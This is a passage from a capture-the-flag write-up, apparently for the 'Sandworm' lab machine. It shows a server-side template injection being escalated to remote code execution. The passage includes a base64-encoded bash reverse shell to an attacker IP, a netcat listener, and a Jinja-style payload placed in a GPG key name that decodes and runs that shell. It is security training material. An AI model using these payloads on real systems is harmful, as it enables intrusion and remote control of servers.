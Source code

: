 
- **Execute the Payload**: When the server processed the signed message, it executed the payload. In this case, the payload ran the `id` command on the server and returned the results.

![](/assets/images/writeups/sandworm/12.png)

- **Verification**: By observing the response from the server, we verified that we were successful in running the `id` command. This confirmed that we had successfully escalated the **Server-Side Template Injection** to **Remote Code Execution**.

# SANDBOXED SHELL AS ATLAS

We used a `bash` one-liner reverse shell and activated our `netcat` listener, allowing us to establish a connection to it.

```shell
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.75/443 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS80NDMgMD4mMSIK
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ nc -nlvp 443
listening on [any] 443 ...
```

```shell
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ gpg --gen-key                                                    
gpg (GnuPG) 2.2.40; Copyright (C) 2022 g10 Code GmbH
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Note: Use "gpg --full-generate-key" for a full featured key generation dialog.

GnuPG needs to construct a user ID to identify your key.

Real name: { {''.__class__.__base__.__subclasses__()[439]('echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS80NDMgMD4mMSIK | base64 -d | bash', shell=True, stdout=-1).communicate()} }
Email address: curiosity@hacksfor.fun
You selected this USER-ID:
    "{ {''.__class__.__base__.__subclasses__()[439]('echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS80NDMgMD4mMSIK | base64 -d | bash', shell=True, stdout=-1).communicate()} } <curiosity@hacksfor.fun>"

Change (N)ame, (E)mail, or (O)kay/(Q)uit? O
```